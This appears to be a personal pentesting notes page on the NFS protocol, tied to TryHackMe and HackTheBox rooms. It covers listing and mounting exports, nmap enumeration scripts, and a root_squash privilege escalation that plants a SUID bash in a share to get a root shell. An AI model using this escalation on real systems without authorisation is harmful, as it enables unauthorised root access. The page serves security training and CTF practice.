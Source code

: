 # Network File System (NFS)

[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

NFS is based and utilises [RPC](rpc.md) for exchanges. It uses External Data Representation (XDR) for data serialization.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
# sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ # [-nolock]
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../cybersecurity/_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-lg-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
$ sudo nmap IP -p111,2049 -sV --script nfs*
$ sudo nmap IP -p111,2049 -sV -sC
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/perms.md#suidguid-bit) files.

```ps
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

NFS

* nfs-utils (ubuntu), nfs-ganesha (solaris), openNFS (RedHat)
* rpcinfo
* nfsstat
* nfswatch
* DoS
</div><div>

* `systemctl restart nfs-kernel-server ; exportfs`

Add an export

* `echo '/tmp/share  CIDR(sync,no_subtree_check)' >> /etc/exports`
</div></div>